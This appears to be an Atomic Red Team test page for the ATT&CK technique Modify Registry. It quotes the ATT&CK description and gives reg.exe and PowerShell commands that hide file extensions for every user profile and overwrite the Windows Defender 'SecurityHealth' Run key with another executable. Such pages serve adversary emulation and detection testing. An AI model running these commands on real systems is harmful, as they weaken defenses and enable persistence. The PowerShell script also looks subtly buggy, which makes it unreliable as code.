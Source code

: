# T1112 - Modify Registry
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1112)
<blockquote>Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in Persistence and Execution.

Access to specific areas of the Registry depends on account permissions, some requiring administrator-level access. The built-in Windows command-line utility [Reg](https://attack.mitre.org/software/S0075) may be used for local or remote Registry modification. (Citation: Microsoft Reg) Other tools may also be used, such as a remote access tool, which may contain functionality to interact with the Registry through the Windows API (see examples).

Registry modifications may also include actions to hide keys, such as prepending key names with a null character, which will cause an error and/or be ignored when read via [Reg](https://attack.mitre.org/software/S0075) or other utilities using the Win32 API. (Citation: Microsoft Reghide NOV 2006) Adversaries may abuse these pseudo-hidden keys to conceal payloads/commands used to establish Persistence. (Citation: TrendMicro POWELIKS AUG 2014) (Citation: SpectorOps Hiding Reg Jul 2017)

The Registry of a remote system may be modified to aid in execution of files as part of Lateral Movement. It requires the remote Registry service to be running on the target system. (Citation: Microsoft Remote) Often [Valid Accounts](https://attack.mitre.org/techniques/T1078) are required, along with access to the remote system's [Windows Admin Shares](https://attack.mitre.org/techniques/T1077) for RPC communication.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry of Current User Profile - cmd](#atomic-test-1---modify-registry-of-current-user-profile---cmd)

- [Atomic Test #2 - Modify Registry of Local Machine - cmd](#atomic-test-2---modify-registry-of-local-machine---cmd)

- [Atomic Test #3 - Modify Registry of Another User Profile](#atomic-test-3---modify-registry-of-another-user-profile)


<br/>

## Atomic Test #1 - Modify Registry of Current User Profile - cmd
Modify the registry of the currently logged in user using reg.exe cia cmd console

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /t REG_DWORD /v HideFileExt /d 1 /f
```
<br/>
<br/>

## Atomic Test #2 - Modify Registry of Local Machine - cmd
Modify the Local Machine registry RUN key to change Windows Defender executable that should be ran on startup.  This should only be possible when
CMD is ran as Administrative rights.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d {some_other_executable} /f
```
<br/>
<br/>

## Atomic Test #3 - Modify Registry of Another User Profile
Modify a registry key of each user profile not currently loaded on the machine using both powershell and cmd line tools.

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
# here is an example of using the same method of reg load, but without the New-PSDrive cmdlet.
# Here we can load all unloaded user hives and do whatever we want in the location below (comments)
$PatternSID = 'S-1-5-21-\d+-\d+\-\d+\-\d+$'

Write-Verbose -Message 'Gathering Profile List and loading their registry hives'
# Get Username, SID, and location of ntuser.dat for all users

$ProfileList = @()
$ProfileList = Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\*' | Where-Object { $_.PSChildName -match $PatternSID } |
  Select  @{ name = "SID"; expression = { $_.PSChildName } },
          @{ name = "UserHive"; expression = { "$($_.ProfileImagePath)\ntuser.dat" } },
          @{ name = "Username"; expression = { $_.ProfileImagePath -replace '^(.*[\\\/])', '' } }

# Get all user SIDs found in HKEY_USERS (ntuder.dat files that are loaded)
$LoadedHives = Get-ChildItem Registry::HKEY_USERS | ? { $_.PSChildname -match $PatternSID } | Select @{ name = "SID"; expression = { $_.PSChildName } }

$SIDObject = @()

foreach ($item in $LoadedHives)
{
    $props = @{
        SID = $item.SID
    }

    $TempSIDObject = New-Object -TypeName PSCustomObject -Property $props
    $SIDObject += $TempSIDObject
}

# We need to use ($ProfileList | Measure-Object).count instead of just ($ProfileList).count because in PS V2
# if the count is less than 2 it doesn't work. :)
for ($p = 0; $p -lt ($ProfileList | Measure-Object).count; $p++)
{
    for ($l = 0; $l -lt ($SIDObject | Measure-Object).count; $l++)
    {
        if (($ProfileList[$p].SID) -ne ($SIDObject[$l].SID))
        {
            $UnloadedHives += $ProfileList[$p].SID
            Write-Verbose -Message "Loading Registry hives for $($ProfileList[$p].SID)"
            reg load "HKU\$($ProfileList[$p].SID)" "$($ProfileList[$p].UserHive)"

            Write-Verbose -Message 'Attempting to modify registry keys for each profile'
            #####################################################################
            reg add "HKEY_CURRENT_USER\$($ProfileList[$p].SID)\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /t REG_DWORD /v HideFileExt /d 1 /f
        }
    }
}

Write-Verbose 'Unloading Registry hives for all users'
# Unload ntuser.dat
### Garbage collection and closing of ntuser.dat ###
[gc]::Collect()
reg unload "HKU\$($ProfileList[$p].SID)"
```
<br/>
